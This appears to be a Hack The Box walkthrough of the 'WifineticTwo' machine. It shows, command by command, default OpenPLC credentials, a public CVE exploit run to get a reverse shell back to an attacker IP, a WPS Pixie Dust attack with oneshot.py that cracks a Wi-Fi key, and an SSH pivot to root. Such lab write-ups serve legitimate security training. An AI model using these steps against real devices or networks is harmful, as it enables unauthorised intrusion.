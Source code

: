 📡 HTB: WifineticTwo – Walkthrough

Difficulty: Medium
Category: IoT / Wireless / Exploitation
Tags: OpenPLC, CVE-2021-49803, Reverse Shell, WiFi Hacking, Pixie Dust, Privilege Escalation
🧠 TL;DR

    🎛️ Used default OpenPLC creds

    📟 Exploited CVE-2021-49803 to gain reverse shell

    📶 Performed Pixie Dust attack on wlan0 to breach isolated root environment

🔎 Reconnaissance

Launched standard service scan:

nmap -sC -sV -v <TARGET_IP>

Found a web service on port 8080, redirecting to /login.

Tried some directory bruteforce via feroxbuster & gobuster – no luck. The main entry point was clearly the login panel.
🔐 Default Credentials Bypass

The login page looked like it belonged to OpenPLC. Searched for default creds and quickly found:

Username: openplc
Password: openplc

✅ Logged in successfully.
⚙️ OpenPLC Exploitation – CVE-2021-49803

Searched for OpenPLC vulns and found a PoC for CVE-2021-49803 on Exploit-DB.

The default exploit targeted a program named differently from what's deployed here – mine was called blank_program. I updated the script to match the correct program name.

📡 Triggered remote code execution:

python3 exploit.py -u http://<TARGET_IP>:8080 -l openplc -p openplc -i <ATTACKER_IP> -r <PORT>

🎯 Got a reverse shell back as a pseudo-root, but not the actual system root.
🔍 Enumeration – Virtualization Barrier

Found user.txt in /root/ directory — indicating that this environment was containerized or virtualized, and not full root.

Started investigating ways to escape the jail.
📶 Wireless Recon – wlan0 Detected

Noticed an active wireless interface wlan0.

Scanned the interface:

iwlist wlan0 scan

Found network plcrouter using WPA2-PSK, CCMP, and RSN v1.0 – all pointing to Pixie Dust susceptibility.
🧨 Exploiting with Pixie Dust (OneShot)

Cloned oneshot.py by kimocoder and ran:

python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K

🧠 Cracked the WPA PSK of the router:

NoWWEDoKnowWhaTisReal123!

Used it to generate WPA config:

wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config

Established the connection:

wpa_supplicant -B -c config -i wlan0

Assigned IP manually:

ifconfig wlan0 192.168.1.5 netmask 255.255.255.0

🚪 Root Access via SSH

SSH’ed into the isolated root environment:

ssh root@192.168.1.1

✅ Logged in using the network and obtained root.txt.
🎉 Rooted!

    user.txt → Found in virtual root shell

    root.txt → Retrieved after WiFi pivot and SSH

